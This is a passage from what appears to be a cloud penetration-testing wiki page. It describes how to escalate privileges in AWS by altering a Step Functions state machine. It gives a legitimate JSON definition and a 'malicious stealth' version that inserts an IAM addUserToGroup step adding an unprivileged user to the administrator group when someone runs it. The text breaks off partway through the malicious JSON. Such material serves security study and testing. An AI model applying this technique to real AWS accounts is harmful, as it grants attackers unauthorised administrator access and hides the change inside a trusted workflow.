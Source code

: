 The following examples show how to update a legit state machine that just invokes a HelloWorld Lambda function, in order to add an extra state that adds the user **`unprivilegedUser`** to the **`administrator`** IAM Group. This way, when a legitimate user starts an execution of the updated state machine, this new malicious stealth state will be executed and the privilege escalation will be successful.

{% hint style="warning" %}
If the state machine does not have a permissive IAM Role associated, it would also be required the **`iam:PassRole`** permission to update the IAM Role in order to associate a permissive IAM Role (for example one with the **`arn:aws:iam::aws:policy/AdministratorAccess`** policy attached).
{% endhint %}

{% tabs %}
{% tab title="Legit State Machine" %}
```json
{
  "Comment": "Hello world from Lambda state machine",
  "StartAt": "Start PassState",
  "States": {
    "Start PassState": {
      "Type": "Pass",
      "Next": "LambdaInvoke"
    },
    "LambdaInvoke": {
      "Type": "Task",
      "Resource": "arn:aws:states:::lambda:invoke",
      "Parameters": {
        "FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
      },
      "Next": "End PassState"
    },
    "End PassState": {
      "Type": "Pass",
      "End": true
    }
  }
}
```
{% endtab %}

{% tab title="Malicious Updated State Machine" %}
```json
{
  "Comment": "Hello world from Lambda state machine",
  "StartAt": "Start PassState",
  "States": {
    "Start PassState": {
      "Type": "Pass",
      "Next": "LambdaInvoke"
    },
    "LambdaInvoke": {
      "Type": "Task",
      "Resource": "arn:aws:states:::lambda:invoke",
      "Parameters": {
        "FunctionName": "arn:aws:lambda:us-east-1:123456789012:function:HelloWorldLambda:$LATEST"
      },
      "Next": "AddUserToGroup"
    },
    "AddUserToGroup": {
      "Type": "Task",
      "Parameters": {
        "GroupName": "administrator",
        "UserName": "unprivilegedUser"
      },
      "Resource": "arn:aws:states:::aws-sdk:iam:addUserToGroup",
```